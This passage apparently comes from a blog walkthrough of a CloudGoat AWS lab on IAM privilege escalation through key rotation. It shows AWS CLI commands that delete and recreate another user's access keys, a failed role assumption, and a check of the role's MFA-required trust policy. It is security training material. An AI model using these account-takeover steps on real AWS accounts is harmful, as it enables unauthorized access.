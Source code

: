 Choose one access key id from the result and delete it
```shell
aws --profile kerrigan_manager iam delete-access-key --user-name <admin-username> --access-key-id <access-key-id>
```

Now you can create a new access key for the admin user.

### Assume target role
I use the cli profile name `kerrigan-admin` as the admin profile in this blog.
{: .notice--info}

Assume `cg_secretsmanager_iam_privesc_by_key_rotation_###` role
```shell
aws --profile kerrigan_admin sts assume-role --role-arn arn:aws:iam::###:role/cg_secretsmanager_iam_privesc_by_key_rotation_### --role-session-name <whatever-you-want>
```

You will get an error
>An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::###:user/admin_iam_privesc_by_key_rotation_### is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::###:role/cg_secretsmanager_iam_privesc_by_key_rotation_###


There are some reasons that we cannot assume role.
1. The user does not the permission to assume the role
2. The user did not meet the condition.

We knew that the admin user have permission to assume role, so only one reason left is the admin user did not meet some conditions.

Let's explore more about this role.
```shell
aws --profile kerrigan_admin iam get-role --role-name cg_secretsmanager_iam_privesc_by_key_rotation_###
```

We can read any IAM components  with the admin user because the admin user has managed policy `IAMReadOnlyAccess`. You can check the permission like we do with the manager user.
{: .notice--info}

Result:
```json
{
    "Role": {
        "RoleName": "cg_secretsmanager_iam_privesc_by_key_rotation_###",
        "Arn": "arn:aws:iam::###:role/cg_secretsmanager_iam_privesc_by_key_rotation_###",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::###:root"
                    },
                    "Action": "sts:AssumeRole",
                    "Condition": {
                        "Bool": {
                            "aws:MultiFactorAuthPresent": "true"
                        }
                    }
                }
            ]
        }
    }
}
```
